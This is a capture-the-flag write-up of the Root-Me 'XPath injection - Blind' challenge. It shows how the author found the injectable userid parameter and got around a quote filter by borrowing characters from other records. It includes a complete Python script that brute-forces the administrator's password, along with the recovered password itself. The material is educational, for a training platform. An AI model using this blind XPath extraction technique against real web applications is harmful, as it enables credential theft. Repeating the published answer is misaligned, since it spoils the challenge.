 # XPath injection - Blind

Based on the Challenge Name, you can see that we will use Blind XPath Injection to solve this problem. You can read more about Blind XPath Injection [here](https://owasp.org/www-community/attacks/Blind_XPath_Injection)

Firstly, the injection point is at the Members section.

![anh1](https://live.staticflickr.com/65535/51834116972_b840cea7e2_z.jpg)

when you access this section and click on any member in the table, the url will look like this: *http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2*

The injection point is the `userid` parameter. You can check by enter `or` operator (|), an error will occur. We can use this to check if our conditional expression is true or not and achive our goal. If our exploit code is true, the page will not display any error. If not, we will see the error sceen. We will use this to blind Xpath Injection.

![anh2](https://live.staticflickr.com/65535/51835798225_fe1581a2c1_b.jpg)

And now we know where should we exploit. I will use it to check for John's password length because he is administrator. 

After check his password length with my exploit code (I will show it at the end of this writeup), i see that John's password length is 14. But after brute-force John's password, its length is actually 13 and I don't know why @@

![anh3](https://live.staticflickr.com/65535/51835061596_f68fa3113c_b.jpg)

And now we know that the password length is 13, we can bruteforce the password. But when you use the substring function with *single quote* or *double quotes*, you will see that they are filter.

![anh4](https://live.staticflickr.com/65535/51835179303_59abc5e856_b.jpg)

Seeing that the single quote and double quotes is filter. Now I'm stuck @@ But after searching about it on Google, I see a way to bypass this filter. You can use substring function and extract many character from the table in Members section, although it's not enough character compare with the alphabet, but it's useful for this challenge.

![anh5](https://live.staticflickr.com/65535/51835179713_684d757151_z.jpg)

This is my code to exploit this challenge:

```python

import requests
import string
import os

pw_len = 0
pw = ""
url = "http://challenge01.root-me.org/web-serveur/ch24/?action=user&userid=2 and "
for i in range (1,100):
	print("i=" + str(i))
	final_url = url + "string-length(//user[userid=2]/password)=" + str(i)
	res = requests.get(url=final_url)
	if "John's profile" in res.text:
		os.system("clear")
		pw_len = i
		print("Password length is: " + str(i))
		break
	elif i==100:
		print("An error occur!")
#pw length is actually 13, not 14 and I dont know how @@
candidate = {"a": "substring(//user[userid=2]/account,1,1)",
        "b": "substring(//user[userid=1]/account,3,1)",
        "c": "substring(//user[userid=1]/account,5,1)",
        "d": "substring(//user[userid=2]/account,2,1)",
        "e": "substring(//user[userid=1]/account,9,1)",
        "g": "substring(//user[userid=2]/email,12,1)",
        "h": "substring(//user[userid=2]/email,3,1)",
        "i": "substring(//user[userid=3]/username,3,1)",
        "l": "substring(//user[userid=5]/username,2,1)",
        "m": "substring(//user[userid=2]/account,3,1)",
        "n": "substring(//user[userid=2]/username,4,1)",
        "o": "substring(//user[userid=2]/username,2,1)",
        "r": "substring(//user[userid=3]/username,2,1)",
        "s": "substring(//user[userid=1]/email,1,1)",
        "t": "substring(//user[userid=1]/email,2,1)",
        "u": "substring(//user[userid=3]/account,2,1)",
        "v": "substring(//user[userid=1]/username,4,1)",
        "y": "substring(//user[userid=4]/username,5,1)",
        "S": "substring(//user[userid=1]/username,1,1)",
        "J": "substring(//user[userid=2]/username,1,1)",
        "E": "substring(//user[userid=3]/username,1,1)",
        "@": "substring(//user[userid=3]/email,4,1)",
        ".": "substring(//user[userid=3]/email,8,1)",
	"0":"string(0)",
	"1":"string(1)",
	"2":"string(2)",
	"3":"string(3)",
	"4":"string(4)",
	"5":"string(5)",
	"6":"string(6)",
	"7":"string(7)",
	"8":"string(8)",
	"9":"string(9)"
}
for j in range(1,14):
	print("j=" + str(j))
	for key in candidate:
		print("Current key: " + key)
		final_url2 = url + "substring(//user[userid=2]/password," + str(j) + ",1)=" + candidate[key]
		res = requests.get(url = final_url2)
		if "John's profile" in res.text:
			pw += key
			os.system("clear")
			print("Current string: " + pw)
			break
os.system("clear")
print("Password of admin is: " + pw)
#password is ueiJ4a65@1.oS

```

![anh6](https://live.staticflickr.com/65535/51835417724_bc56e60ceb_z.jpg)

Thank for [this page](https://ngaa.tistory.com/18?fbclid=IwAR39JEuheQ2dfykxE61GqKVjX0HN2Uf6DP0KmApusQZE6orURoNcfJPfRoc) and this [Github author](https://github.com/NhatNam-Kyoto/Rootme-Solution/blob/master/Xpath-blind.py?fbclid=IwAR1GcvyiiGSaJJNiU5NKJR7jz4sIZGdnsGyBgqBJ10EHInNq4QlYEUEvdwI), I am able to bruteforce the password and solve this problem.
